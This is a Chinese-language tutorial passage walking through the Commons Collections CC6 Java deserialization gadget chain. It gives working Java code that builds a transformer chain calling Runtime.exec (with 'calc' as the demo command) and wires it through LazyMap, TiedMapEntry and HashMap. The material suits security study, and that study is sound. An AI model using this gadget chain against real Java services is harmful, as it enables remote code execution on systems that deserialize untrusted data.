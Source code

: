 我们看一下CC6的调用流程

```java
HashMap::hashCode()->TiedMapEntry::getValue()->lazyMap::get()-> ChainedTransformer::transform()
```

后半段与CC1几乎是一样的,其实CC6就是CC1,只不过开头的入口有所不同

这次我们从入口开始 ---HashMap,由于其通用性,CC6一般不会收到jdk版本的影响,这也是为什么选择HashMap作为入口的理由之一

那又为什么选择TiedMapEntry呢?它也位于 commons.collections中,且符合我们在CC1中提到的三个要求,自然会被选为我们的链子节点候选



### 0x2.分块解析链

首先是对lazymap以及ChainedTransformer的初始写入

与CC1是一样的(此时lazymap还未正式放入ChainedTransformer,我们后续再讲)

```java
 Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


HashMap<Object,Object> map=new HashMap<>();
Map<Object,Object> lazymap = LazyMap.decorate(map,chainedTransformer);
```

lazymap要调用到factory的get方法,这里我们需要查看factory在lazymap中是如何被赋值的,也就是初始化的第二个参数进行赋值

当然我们直接调用decorate能够完成LazyMap的初始化操作

```java
    protected LazyMap(Map map, Factory factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = FactoryTransformer.getInstance(factory);
    }
```



然后是TiedMapEntry HashMap的设置

```JAVA
TiedMapEntry tiedMapeEntry=new TiedMapEntry(lazymap,"aaa");

        HashMap<Object,Object> map2= new HashMap<>();
        map2.put(tiedMapeEntry,"bbb");
        lazymap.remove("aaa");
```
